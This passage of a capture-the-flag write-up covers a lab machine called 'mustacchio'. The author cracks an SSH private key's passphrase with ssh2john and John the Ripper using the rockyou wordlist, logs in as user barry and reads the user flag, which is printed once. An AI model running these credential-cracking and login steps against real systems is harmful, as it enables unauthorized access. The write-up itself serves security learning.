 ```
Enter passphrase for key 'id': 
barry@10.10.72.4: Permission denied (publickey).
```

Looks like we'll need to crack the passphrase. I run **ssh2john** to convert it to a crackable format in **John the Ripper**.

`ssh2john.py id > hash`

Then I crack it:

`john --wordlist=rockyou.txt hash`

The password ends up cracking very quickly.

I ssh back over with `ssh -i id barry@10.10.72.4` and enter the passphrase:

```
Enter passphrase for key 'id': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$
```

I check for the **user.txt** flag and get it:

```
barry@mustacchio:~$ cat user.txt
62d77a4d5f97d47c5aa38b3b2651b831
barry@mustacchio:~$ pwd
/home/barry
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt
<REDACTED>
```

<br>
